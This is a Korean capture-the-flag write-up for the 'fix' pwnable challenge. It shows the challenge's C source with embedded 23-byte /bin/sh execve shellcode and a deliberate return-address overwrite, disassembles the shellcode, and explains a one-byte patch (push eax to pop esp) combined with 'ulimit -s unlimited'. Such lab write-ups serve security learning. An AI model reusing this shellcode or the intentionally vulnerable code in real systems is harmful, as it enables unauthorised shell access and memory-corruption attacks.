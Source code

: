 ```yaml
---
sort: 9
---
```


# fix

home 디렉토리에 fix.c에 소스코드가 있다.

```c
#include <stdio.h>

// 23byte shellcode from http://shell-storm.org/shellcode/files/shellcode-827.php
char sc[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
                "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void shellcode(){
        // a buffer we are about to exploit!
        char buf[20];

        // prepare shellcode on executable stack!
        strcpy(buf, sc);

        // overwrite return address!
        *(int*)(buf+32) = buf;

        printf("get shell\n");
}

int main(){
        printf("What the hell is wrong with my shellcode??????\n");
        printf("I just copied and pasted it from shell-storm.org :(\n");
        printf("Can you fix it for me?\n");

        unsigned int index=0;
        printf("Tell me the byte index to be fixed : ");
        scanf("%d", &index);
        fflush(stdin);

        if(index > 22)  return 0;

        int fix=0;
        printf("Tell me the value to be patched : ");
        scanf("%d", &fix);

        // patching my shellcode
        sc[index] = fix;

        // this should work..
        shellcode();
        return 0;
}
```
<br>
shellcode는 아래와 같다.
```
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
d:  89 e3                   mov    ebx,esp
f:  50                      push   eax
10: 53                      push   ebx
11: 89 e1                   mov    ecx,esp
13: b0 0b                   mov    al,0xb
15: cd 80                   int    0x80
```
<br>
stack에 /bin/sh 문자열을 집어넣고 이를 이용해서 execve를 호출하는 모습이다.<br>
근데 이게 문제점이 뭐냐면, shellcode가 들어있는 buf의 위치와 esp가 가리키는 위치가 너무 가까워서 값을 push하다가 shellcode가 덮여써져서 망가진다는 것이다.<br>
따라서 esp를 shellcode가 담겨있는 곳에서 멀리 떨어진 곳으로 옮길 것이다.<br>
한 byte만 수정할 수 있기 때문에, 15번째 byte인 push eax (0x50)을 pop esp를 나타내는 0x5c로 바꿔서 esp의 위치를 0x6e69622f로 바꿀 것이다. 그러나 무작정 이렇게 해버리면 stack segment영역에서 벗어나기 때문에 segmentation fault가 뜨게 된다. 따라서 stack의 크기를 무제한으로 늘릴 수 있도록 `ulimit -s unlimited`를 이용해서 stack크기의 제한을 없앨 것이다. 그러면 된다.


```tip
## 알게 된 점

ulimit
```